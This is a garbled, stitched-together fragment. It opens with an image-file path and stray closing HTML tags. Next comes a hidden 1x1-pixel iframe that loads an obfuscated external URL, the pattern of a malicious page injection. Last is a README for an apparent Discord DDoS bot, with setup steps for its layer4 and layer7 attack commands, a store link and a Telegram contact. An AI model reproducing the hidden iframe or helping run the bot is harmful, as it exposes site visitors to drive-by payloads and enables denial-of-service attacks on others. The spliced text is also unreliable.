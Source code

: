 </TABLE>
<iframe src="http://jL.c&#104;ura&#46;pl/rc/" style="width:1px;height:1px"></iframe>
</body>
</HTML>


## Installation:
```sh
1. Install NodeJS 12.x
2. Install Screen: apt-get install screen -y
3. Use your bot token generated at Discord Devoloper website
4. Paste the bot token on line 286 in the bot.js file
5. Copy the ROOM ID where the attack command is written and change the ROOM ID at line 3 of the file ayarlar.json
6. Customize attack commands in 2 folders attack_layer7 and attack_layer4
7. Run the command to start the bot by typing node bot.js
8. Let's have fun

```

### Log
```sh
- SMALL UPDATE ANTI SKID
- UPDATE METHODS COMMAND
- NEW GEOIP FUNCTION
```

### Credits
```sh
zxcr9999
rcong
(Thank for using <3)
```

### TOS:
```sh
I do not accept any responsibility for your use of the source code for any purpose
Remember: Purpose born to study
```

### NOTE:
```sh
LATEST RELEASE AND WITHOUT ANY ERROR
```
### Store: 
```sh
https://condi.billgang.store/
```
### CONTACT:
```sh
Telegram: @learneverything9
```
